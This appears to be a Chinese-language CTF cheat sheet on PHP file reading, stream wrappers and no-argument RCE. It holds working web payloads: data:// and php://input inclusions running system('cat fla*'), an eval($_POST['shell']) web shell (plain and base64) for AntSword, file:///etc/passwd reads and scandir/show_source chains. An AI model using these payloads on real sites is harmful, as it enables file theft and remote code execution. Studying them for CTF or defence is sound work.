

# PHP 文件读取

## 相关函数

**此处只做简单介绍，具体介绍将归纳到命令执行**

### 命令执行函数

```
system() 
输出并返回最后一行shell结果。

exec() 
不输出结果，返回最后一行shell结果，所有结果可以保存到一个返回的数组里面。

shell_exec()或` `
将字符串作为OS命令执行，需要输出执行结果，且输出全部的内容。

passthru() 
只调用命令，把命令的运行结果原样地直接输出到标准输出设备上。

pcntl_exec()

popen()/proc_open() 
该函数也可以将字符串当作OS命令来执行，但是该函数返回的是文件指针而非命令执行结果。该函数有两个参数。
```

### 输出函数

```
cat 
由第一行开始显示内容，并将所有内容输出

tac
从最后一行倒序显示内容，并将所有内容输出

nl      
类似于cat -n，显示时输出行号

more    
根据窗口大小，一页一页的现实文件内容

less    
和more类似，但其优点可以往前翻页，而且进行可以搜索字符

head    
只显示头几行

tail    
只显示最后几行

sort    
文本内容排列

uniq    
可检查文本文件中重复出现的行列。

od
（Octal Dump）命令用于将指定文件内容以八进制、十进制、十六进制、浮点格式或ASCII编码字符方式显示，通常用于显示或查看文件中不能直接显示在终端的字符。od命令系统默认的显示方式是八进制。

strings: 
在对象文件或二进制文件中查找可打印的字符串, 在当前目录中，查找后缀有 file 字样的文件中包含 test 字符串的文件，并打印出该字符串的行。此时，可以使用如下命令： grep test *file strings

paste	
把每个文件以列对列的方式，一列列地加以合并

grep	 
grep { flag.php打印有”{“的一行

sed		
一种编辑器，可以用sed -f flag.php读取flag
```

### 文件读取函数

```
readfile()
> readfile($filename)
读取文件

highlight_file()
> highlight_file($filename)
读文件

show_source()
> show_source($filename)
读文件

base64_decode()		
base64解码

strrev()			
反转字符串

print_r(php_strip_whitespace($filename));

print_r(file_get_contents($filename));

print_r(file($filename));

fread(fopen($filename,"r"), $size);

include（）

fpassthru(fopen($filename, "r")); 
// 从当前位置一直读取到 EOF

print_r(fgetss(fopen($filename, "r")));
// 从文件指针中读取一行并过滤掉 HTML 标记

```

### 目录扫描函数

```
scandir()
扫目录用的，返回数组

getcwd()
返回当前目录

glob()
包含匹配指定模式的文件名或目录的数组

dir()
返回 Directory 类的实例

opendir
打开目录句柄
```

***

## 伪协议

PHP支持的伪协议

```
php://     — 访问各个输入/输出流（I/O streams）
file://    — 访问本地文件系统
http://    — 访问 HTTP(s) 网址
ftp://     — 访问 FTP(s) URLs
zlib://    — 压缩流
data://    — 数据（RFC 2397）
glob://    — 查找匹配的文件路径模式
phar://    — PHP 归档
ssh2://    — Secure Shell 2
rar://     — RAR
ogg://     — 音频流
expect://  — 处理交互式的流
```

### php://filter

php://filter 是一种元封装器， 设计用于数据流打开时的筛选过滤应用。 这对于一体式（all-in-one）的文件函数非常有用，类似 readfile()、 file() 和 file_get_contents()， 在数据流内容读取之前没有机会应用其他过滤器。

简单通俗的说，这是一个中间件，在读入或写入数据的时候对数据进行处理后输出的一个过程。

php://filter可以获取指定文件源码。当它与包含函数结合时，php://filter流会被当作php文件执行。所以我们一般对其进行编码，让其不执行。从而导致 任意文件读取。

#### 协议参数

```
resource=<要过滤的数据流>	
这个参数是必须的。它指定了你要筛选过滤的数据流。

read=<读链的筛选列表>	
该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。

write=<写链的筛选列表>	
该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。

<；两个链的筛选列表>	
任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。
```

#### 常用伪协议

```
php://filter/read=convert.base64-encode/resource=index.php
php://filter/resource=index.php
```

#### 过滤器：

`php://filter/read=convert.base64-encode/resource=index.php`

利用filter协议读文件，将index.php通过base64编码后进行输出。这样做的好处就是如果不进行编码，文件包含后就不会有输出结果，而是当做php文件执行了，而通过编码后则可以读取文件源码。

而使用的convert.base64-encode，就是一种过滤器

##### 字符串过滤器

该类通常以string开头，对每个字符都进行同样方式的处理。

###### string.rot13

一种字符处理方式，字符右移十三位。

###### string.toupper

将所有字符转换为大写。

###### string.tolower

将所有字符转换为小写。

###### string.strip_tags

这个过滤器就比较有意思，用来处理掉读入的所有标签，例如XML的等等。在绕过死亡exit大有用处。

##### 转换过滤器

对数据流进行编码，通常用来读取文件源码。

###### convert.base64-encode & convert.base64-decode

base64加密解密

###### convert.quoted-printable-encode & convert.quoted-printable-decode

可以翻译为可打印字符引用编码，使用可以打印的ASCII编码的字符表示各种编码形式下的字符。

##### 压缩过滤器

注意，这里的压缩过滤器指的并不是在数据流传入的时候对整个数据进行写入文件后压缩文件，也不代表可以压缩或者解压数据流。压缩过滤器不产生命令行工具如 gzip的头和尾信息。只是压缩和解压数据流中的有效载荷部分。

用到的两个相关过滤器：zlib.deflate（压缩）和 zlib.inflate（解压）。zilb是比较主流的用法，至于bzip2.compress和 bzip2.decompress工作的方式与 zlib 过滤器大致相同。

##### 加密过滤器

mcrypt.*和 mdecrypt.*使用 libmcrypt 提供了对称的加密和解密。

***

### data://

数据流封装器，以传递相应格式的数据。可以让用户来控制输入流，当它与包含函数结合时，用户输入的data://流会被当作php文件执行。

`data:text/plain,<?=system("tac fla*");?>`

#### data伪协议的格式

`data://text/plain;base64,`

data:资源类型(MIME类型);编码,内容

举例：

```
1.c=data://text/plain,<?php system("cat fla*");?>
读flag

2.c=data:,<?php @eval($_POST['shell']); ?>
可以直接用蚁剑连接

3.c=data:text/base64,PD9waHAgQGV2YWwoJF9QT1NUWydzaGVsbCddKTsgPz4=
```

#### 类型扩展

```
data:,                                     <文本数据>
data:text/plain,                           <文本数据>
data:text/html,                            <HTML代码>
data:text/html;base64,                     <base64编码的HTML代码>
data:text/css,                             <CSS代码>
data:text/css;base64,                      <base64编码的CSS代码>
data:text/javascript,                      <Javascript代码>
data:text/javascript;base64,               <base64编码的Javascript代码>
data:image/gif;base64,                     <base64编码的gif图片数据>
data:image/png;base64,                     <base64编码的png图片数据>
data:image/jpeg;base64,                    <base64编码的jpeg图片数据>
data:image/x-icon;base64,                  <base64编码的icon图片数据>
```

***

### file://

用于访问本地文件系统，并且不受allow_url_fopen，allow_url_include影响
file://协议主要用于访问文件(绝对路径、相对路径以及网络路径)
比如：`http://www.xx.com?file=file:///etc/passsword`

***

### php://

在allow_url_fopen，allow_url_include都关闭的情况下可以正常使用
php://作用为访问输入输出流

***

### php://input

php://input可以访问请求的原始数据的只读流，将post请求的数据当作php代码执行。当传入的参数作为文件名打开时，可以将参数设为php://input,同时post想设置的文件内容，php执行时会将post内容当作文件内容。从而导致任意代码执行。

例如：
`http://127.0.0.1/cmd.php?cmd=php://input`
POST数据：`<?php phpinfo()?>`
注意：
当`enctype="multipart/form-data"`的时候` php://input` 是无效的

遇到`file_get_contents()`要想到用`php://input`绕过。

***

### zip://

zip:// 可以访问压缩包里面的文件。当它与包含函数结合时，zip://流会被当作php文件执行。从而实现任意代码执行。

zip://中只能传入绝对路径。
要用#分隔压缩包和压缩包里的内容，并且#要用url编码%23（即下述POC中#要用%23替换）
只需要是zip的压缩包即可，后缀名可以任意更改。
相同的类型的还有zlib://和bzip2://

    zip://中只能传入绝对路径。
    要用#分隔压缩包和压缩包里的内容，并且#要用url编码%23（即下述POC中#要用%23替换）
    只需要是zip的压缩包即可，后缀名可以任意更改。
    相同的类型的还有zlib://和bzip2://



***

## 无参数RCE

### 相关函数介绍

```
scandir() 
将返回当前目录中的所有文件和目录的列表。返回的结果是一个数组，其中包含当前目录下的所有文件和目录名称

getcwd() 
取得当前工作目录

hightlight_file()、show_source()、readfile()
读取文件内容

dirname()
函数返回路径中的目录部分

eval()、assert()
命令执行

print_r(scandir(‘.’)); 
查看当前目录下的所有文件名

localeconv() 
函数返回一包含本地数字及货币格式信息的数组。

current() 
函数返回数组中的当前元素（单元）,默认取第一个值，pos是current的别名

chdir() 
函数改变当前的目录。

strrev()
用于反转给定字符串

array_reverse() 
以相反的元素顺序返回数组

array_flip()
交换数组中的键和值，成功时返回交换后的数组

array_rand() 
从数组中随机取出一个或多个单元
```

### 数组移动操作

```
each() 
返回数组中当前的键/值对并将数组指针向前移动一步

end() 
将数组的内部指针指向最后一个单元

next() 
将数组中的内部指针向前移动一位

prev() 
将数组中的内部指针倒回一位

reset()
将内部指针指向数组中的第一个元素，并输出
```

### 常用RCE

```
highlight_file(array_rand(array_flip(scandir(getcwd())))); //查看和读取当前目录文件

print_r(scandir(dirname(getcwd()))); //查看上一级目录的文件

print_r(scandir(next(scandir(getcwd()))));  //查看上一级目录的文件

show_source(array_rand(array_flip(scandir(dirname(chdir(dirname(getcwd()))))))); //读取上级目录文件

show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(getcwd())))))))))));//读取上级目录文件

show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion())))))))))))))));//读取上级目录文件
```

